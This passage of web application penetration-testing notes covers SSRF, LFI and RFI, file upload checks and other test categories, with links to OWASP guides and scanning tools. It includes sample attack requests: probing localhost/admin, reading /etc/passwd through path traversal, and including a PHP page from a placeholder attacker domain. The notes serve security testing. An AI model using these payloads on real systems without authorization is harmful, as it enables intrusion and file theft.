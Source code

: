 ###### Server Side Request Forgery (SSRF)
[SSRF](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery) is possible when the web application is making an HTTP request for the content it is attempting to retrieve. Generally speaking, this is done to access a local resource without authenticating:
```http
GET https://example.com/page?page=http://localhost/admin
```
There is also the possibility that another attack such as [XXE](https://portswigger.net/web-security/xxe)  might lead to or enable SSRF. You might also be able to leverage CSRF attacks or [Open Redirect](https://portswigger.net/kb/issues/00500100_open-redirection-reflected) to bypass [SSRF](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses) filters. 

When you discover the conditions needed for SSRF, you should also be testing for LFI and RFI since they require the similar conditions. Here are some examples of things you can try when you have a request URL under your control:
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
```http
GET https://example.com/page?page=../../../../etc/passwd
```
- [Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)
```http
GET https://example.com/page?page=https://my-rfi-domain.com/malicious-page.php
```
It is important to note that RFI and LFI are not SSRF attacks; however, in the event that you discover a parameter that *might* be vulnerable to SSRF, it is also a possibility that LFI/RFI are possible. 
#### File Upload Vulnerabilities
- Burp Upload Scanner
- Test MIME Type Swapping
- Test Nested File Extensions
- Test Alternate File Extensions
- Look For Uploads Directory
#### Other Tests
- [Method Interchange](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)
- [Mass Assignment](https://learn.snyk.io/lesson/mass-assignment/)
- [Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [XML External Entity Injection (XXE)](https://portswigger.net/web-security/xxe)
- [Insecure Deserialization](https://portswigger.net/web-security/deserialization)
- [Clickjacking Test Site](https://clickjacker.io)
- [Content Security Policy (CSP) Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/12-Test_for_Content_Security_Policy)
- [Server Side Template Injection (SSTi)](https://portswigger.net/web-security/server-side-template-injection)
- [Client Side Template Injection (CSTi)](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)
- [Cross Origin Resource Sharing (CORS) Testing](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
## References
### External
- [Nikto](https://github.com/sullo/nikto)
- [Wappalyzer](https://github.com/wappalyzer/wappalyzer)
- [SSLyze](https://github.com/nabla-c0d3/sslyze)
- [SQLMap](https://github.com/sqlmapproject/sqlmap)
- [Burp CEWL Extension](https://gist.github.com/lanmaster53/a0d3523279f3d1efdfe6d9dfc4da0d4a)
### Internal
- [[BurpSuite]]